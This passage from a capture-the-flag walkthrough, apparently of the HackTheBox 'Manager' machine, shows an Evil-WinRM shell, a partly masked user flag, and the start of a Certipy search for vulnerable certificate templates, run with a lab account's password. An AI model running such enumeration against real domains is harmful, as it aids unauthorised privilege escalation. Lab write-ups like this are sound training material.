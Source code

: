 ```
*Evil-WinRM* PS C:\Users\Raven\Desktop> type user.txt
6e6a6b72************************

```

## Shell as administrator

### Enumeration

#### Filesystem

raven’s home directory is otherwise completely empty:

```
*Evil-WinRM* PS C:\Users\Raven> ls -recurse .

    Directory: C:\Users\Raven

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        7/27/2023   8:24 AM                Desktop
d-r---        7/27/2023   8:23 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos

    Directory: C:\Users\Raven\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/12/2024   9:21 PM             34 user.txt

```

There’s no other user directories, and the web directory doesn’t have anything else interesting.

#### ADCS

With a Windows domain, the next thing to check used to be Bloodhound, but lately it’s worth checking Advice Directory Certificate Services (ADCS) as well, and that’s quick, so I’ll start there. This can be done by uploading [Certify](https://github.com/GhostPack/Certify) or remotely with [Certipy](https://github.com/ly4k/Certipy). I find Certipy easier.

I’ll look for vulnerable templates:

```
oxdf@hacky$ certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
```